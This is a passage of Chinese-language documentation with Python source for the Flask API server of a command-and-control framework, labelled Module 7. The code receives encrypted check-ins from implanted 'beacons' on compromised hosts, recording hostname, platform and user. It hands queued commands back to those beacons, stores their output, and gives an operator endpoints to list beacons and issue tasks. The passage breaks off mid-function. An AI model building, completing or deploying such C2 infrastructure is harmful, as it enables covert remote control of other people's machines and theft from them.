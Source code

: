 ### **模块七：`c2_server/api_server.py` - C2核心API服务器 (新增)**

**优化点:** C2后端被完全重构为基于Flask的RESTful API。这种架构将处理逻辑与用户界面分离，使框架极易扩展（例如未来可接入Web UI），并允许多个 `cli_client`同时操作。

```python
# c2_server/api_server.py

from flask import Flask, request, jsonify
from c2_server import database_manager as db
from common.crypto import global_encryptor
from common import protocol
from common.config import C2_HOST, C2_PORT

app = Flask(__name__)
db.init_db() # 初始化数据库

@app.route('/register', methods=['POST'])
def handle_communication():
    encrypted_data = request.data
    if not encrypted_data:
        return "No data", 400

    decrypted_data = global_encryptor.decrypt(encrypted_data)
    if not decrypted_data:
        return "Decryption failed", 401
  
    msg = protocol.parse_message(decrypted_data)
    if not msg:
        return "Invalid message format", 400

    msg_type = msg.get('type')
    beacon_id = msg.get('beacon_id')

    response_data = []

    if msg_type == 'checkin':
        db.register_beacon(beacon_id, msg.get('platform'), msg.get('hostname'), msg.get('user'))
        # 签入后，立即获取待办任务
        response_data = db.get_pending_tasks(beacon_id)
  
    elif msg_type == 'result':
        db.record_task_result(msg.get('task_id'), msg.get('output'))
        # 提交结果后，也获取新任务
        response_data = db.get_pending_tasks(beacon_id)

    response_plain = protocol.json.dumps(response_data)
    response_encrypted = global_encryptor.encrypt(response_plain)
    return response_encrypted

# --- API Endpoints for Operator CLI ---
@app.route('/api/beacons', methods=['GET'])
def list_beacons():
    beacons = db.get_all_beacons()
    return jsonify(beacons)

@app.route('/api/tasks', methods=['POST'])
def issue_task():
    data = request.json
    beacon_id = data.get('beacon_id')
    command = data.get('command')
    args = data.get('args', '')
  
    task_id = db.add_task(beacon_id, command, args)
```